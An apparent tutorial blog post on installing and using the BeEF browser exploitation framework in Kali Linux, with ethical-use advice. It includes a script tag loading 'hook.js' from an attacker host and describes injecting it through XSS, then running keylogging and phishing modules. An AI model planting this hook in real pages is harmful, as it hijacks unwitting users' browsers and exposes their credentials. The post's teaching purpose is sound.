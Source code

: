```yaml
---
title: Exploring BeEF A Powerful Kali Linux Tool
linkTitle: BeEF
description: This post will explore BeEF’s functionality, installation, and ethical use cases in cybersecurity.
date: 2024-11-22T16:29:00.893Z
draft: false
tags:
   - kali tools
categories:
   - Kali linux
type: docs
prev: ""
next: ""
authors:
   - name: İbrahim Korucuoğlu
     link: https://github.com/siberoloji
     image: https://github.com/siberoloji.png
weight: 300
toc: true
keywords:
   - BeEF
excludeSearch: false
sidebar:
   open: true
featured_image: /images/kalilinux2.webp
url: exploring-beef-powerful-kali-linux-tool
---
```

Web browsers are essential tools for accessing the internet, but they also represent one of the most significant attack vectors for malicious activities. **BeEF (Browser Exploitation Framework)** is a specialized penetration testing tool included in Kali Linux that focuses on leveraging browser vulnerabilities to assess and improve security. This post will explore BeEF’s functionality, installation, and ethical use cases in cybersecurity.

---

## What is BeEF?

BeEF is an open-source security framework designed to test and exploit vulnerabilities in web browsers. It enables penetration testers and security professionals to evaluate the security posture of systems by interacting directly with browsers. Unlike traditional network-focused tools, BeEF shifts attention to client-side vulnerabilities, such as those arising from JavaScript and cross-site scripting (XSS) attacks.

### Core Features

1. **Hooking Mechanism**:
   - BeEF uses a "hook.js" script to connect to a target browser. Once hooked, the browser becomes part of a command and control (C&C) environment where the tester can execute commands and assess vulnerabilities.

2. **Extensive Exploitation Modules**:
   - Over 300 built-in modules allow for tasks like keylogging, phishing, browser redirection, and network reconnaissance.

3. **Customizable Framework**:
   - Security professionals can inject custom JavaScript code to tailor their testing efforts.

4. **Real-Time Interaction**:
   - BeEF provides real-time interaction with compromised browsers via its web-based dashboard.

---

## Installing BeEF on Kali Linux

BeEF is easy to set up and use within Kali Linux. Follow these steps:

1. **Update Your System**:

   ```bash
   sudo apt update && sudo apt upgrade
   ```

2. **Install BeEF**:

   ```bash
   sudo apt install beef-xss
   ```

3. **Start BeEF**:

   ```bash
   service beef-xss start
   ```

4. **Access the Web Interface**:
   - Open a browser and navigate to `http://127.0.0.1:3000/ui/panel`.
   - The default credentials are:
     - Username: `beef`
     - Password: `beef`

5. **Configuration**:
   - Update credentials and configure logging options via the configuration file located in the BeEF directory.

---

## Using BeEF for Ethical Penetration Testing

### 1. **Browser Hooking**

BeEF hooks browsers by embedding the `hook.js` script into a website or application. For example:

```html
<script src="http://<IP>:3000/hook.js"></script>
```

When a user visits a webpage containing this script, their browser becomes "hooked" and visible in the BeEF dashboard.

### 2. **Launching Exploitation Modules**

Once a browser is hooked, testers can:

- Execute phishing campaigns (e.g., fake Google login pages).
- Redirect browsers to malicious or test sites.
- Perform network reconnaissance from the victim’s perspective.

### 3. **XSS Attacks**

If a vulnerable website is identified, testers can inject `hook.js` via an input field or stored script, hooking multiple users who access the compromised site.

---

## Ethical Use Cases

1. **Web Application Security Testing**:
   - Identify XSS vulnerabilities and assess the potential damage of browser-based exploits.

2. **User Awareness Training**:
   - Demonstrate the risks of insecure browsing habits by simulating phishing attacks or browser exploits in controlled environments.

3. **Incident Response**:
   - Analyze browser compromises to improve organizational defenses against real-world threats.

---

## Benefits and Limitations

### Benefits

- Comprehensive assessment of client-side vulnerabilities.
- Real-time interaction with hooked browsers.
- Extensible framework suitable for diverse testing scenarios.

### Limitations

- Limited to browser-based attacks and may not assess network-level vulnerabilities.
- Requires ethical use; misuse can lead to severe legal consequences.

---

## Best Practices for Responsible Use

1. **Obtain Permission**:
   - Only use BeEF on systems or networks where you have explicit authorization.

2. **Document Actions**:
   - Maintain logs of all activities performed during penetration testing.

3. **Ensure Legal Compliance**:
   - Familiarize yourself with local and international laws governing cybersecurity practices.

4. **Use in Isolated Environments**:
   - Avoid unintended harm by conducting tests in isolated or sandboxed systems.

---

## Conclusion

BeEF is a powerful tool in the hands of ethical hackers and cybersecurity professionals, allowing them to uncover and address vulnerabilities in web browsers and web applications. By leveraging its unique capabilities, organizations can enhance their security posture and educate users about the dangers of insecure web browsing. However, its use comes with a responsibility to adhere to ethical guidelines and legal frameworks, ensuring that the tool serves its intended purpose of improving cybersecurity.

For more information and resources, visit the official [BeEF project page](https://beefproject.com) or consult detailed documentation on Kali Linux’s [tool repository](https://www.kali.org/tools/beef-xss/)【18】【20】【22】.
